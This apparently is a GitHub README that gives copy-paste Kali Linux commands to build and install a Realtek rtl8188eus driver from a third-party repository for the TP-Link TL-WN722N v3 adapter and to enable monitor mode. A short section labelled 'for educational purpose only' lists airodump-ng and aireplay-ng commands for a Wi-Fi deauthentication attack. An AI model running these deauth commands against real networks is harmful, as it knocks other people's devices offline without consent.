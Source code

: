 # tp-link-v3-TL-WN722N
realtek-rtl8188eus-dkms packaging for Kali Linux

## copy  and past the below commands

sudo  apt update

sudo apt dist-upgrade

reboot

sudo apt install linux-headers-$(uname -r) 

sudo apt install bc

sudo rmmod r8188eu.ko

sudo git clone https://github.com/keralahacker/tp-link-v3-usb

cd tp-link-v3-usb

sudo unzip tp-link-v3-usb-HWV.zip

sudo -i

echo "blacklist r8188eu.ko" > "/etc/modprobe.d/realtek.conf"

exit

sudo make

sudo make install

sudo modprobe 8188eu


----------------------------------------------------------------------------------
#### if you face any issues ===> 
https://github.com/keralahacker/tp-link-v3-usb/issues/new 
#### submit with screenshot
----------------------------------------------------------------------------------

## To enable Monitor mode

ifconfig wlan0 down

airmon-ng check kill

iwconfig wlan0 mode monitor

ifconfig wlan0 up

iwconfig                                     \\check mode: monitor



### Deauthentication Attack[for educational purpose only]



airodump-ng wlan0

airodump-ng --bssid <id> --channel <ch> --write test wlan0

aireplay-ng --deauth [any no.] -a <bssid> -c <station id> wlan0


## Important note: 

If after restarting your kali machine doesn't recognise your device..
As lot of people are facing the same problem ..
I have a solution for you..
Whenever you restart your kali OS
Insert the adapter and run the command


sudo rmmod r8188eu.ko

Sudo modprobe 8188eu

Disconnect the device and connect again..
